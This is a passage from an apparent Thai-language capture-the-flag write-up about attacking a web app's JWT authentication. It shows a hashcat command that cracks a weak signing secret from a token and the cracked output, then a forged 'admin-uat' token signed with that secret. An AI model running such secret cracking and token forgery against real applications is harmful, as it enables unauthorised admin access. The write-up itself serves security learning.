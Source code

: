 ```text
HMAC_SHA256(
  secret,
  base64urlEncoding(header) + '.' +
  base64urlEncoding(payload)
)
```

ดังนั้นถ้าแอปพลิเคชันใช้ secret ที่ไม่แข็งแรงหรือมีความยาวไม่มากพอ เราสามารถ brute force JWT เพื่อหาค่า secret ได้ และหลังจากนั้นเราสามารถปลอมแปลง JWT โดยใส่ payload ตามที่ต้องการ แล้ว sign JWT ด้วย secret ดังกล่าว

### Cracking JWT Secret

ผมใช้ hashcat โหมด 16500 ในการ crack JWT secret โดยใช้ wordlist จาก `rockyou.txt` และสามารถ crack ได้สำเร็จ ออกมาเป็นคำว่า `"bobcats"`

```shell-session
$ hashcat -a 0 -m 16500 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbiI6ImI4MTk0M2JhLWQxYzUtNDk1YS04NDI3LTQ3MTFjMzkyNTZiZiJ9.Rlk_a69lx16hNhwn4nBfRxhiMGmEDoPIcxfr1_7JdH8 ~/ctf/rockyou.txt       
hashcat (v6.2.6) starting

...SNIP...

Dictionary cache hit:
* Filename..: /home/kong/ctf/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

...SNIP...

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbiI6ImI4MTk0M2JhLWQxYzUtNDk1YS04NDI3LTQ3MTFjMzkyNTZiZiJ9.Rlk_a69lx16hNhwn4nBfRxhiMGmEDoPIcxfr1_7JdH8:"bobcats"

...SNIP...
```

### Forging JWT for "admin-uat"

ตอนนี้เรามีข้อมูลที่จำเป็นในการปลอมแปลง JWT สำหรับเว็บแอปพลิเคชันครบแล้ว การสร้าง JWT ที่เราต้องการ ทำได้จากในเว็บ jwt.io โดยเปลี่ยน payload ให้เป็น token ของ admin user แล้ว sign ด้วย secret ที่เราหามาได้

<div align="center">

![Forged JWT](/img/sth-mini-web-ctf-2025-1/image-13.png)

</div>

เราจะได้ JWT ที่มี token ของ "admin-uat" และ signed ด้วย secret เดียวกับที่ใช้ในเว็บแอปพลิเคชัน ดังนี้

```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0b2tlbiI6IjczZWI3MDYzLWY4YzMtNGU1MC1iZWEyLTA3YzA1NjgxYWE5MiJ9.IFc2uZiX_3x1ihXgRaANOPvmySpQzFz_wMD0up8Ny0I
```
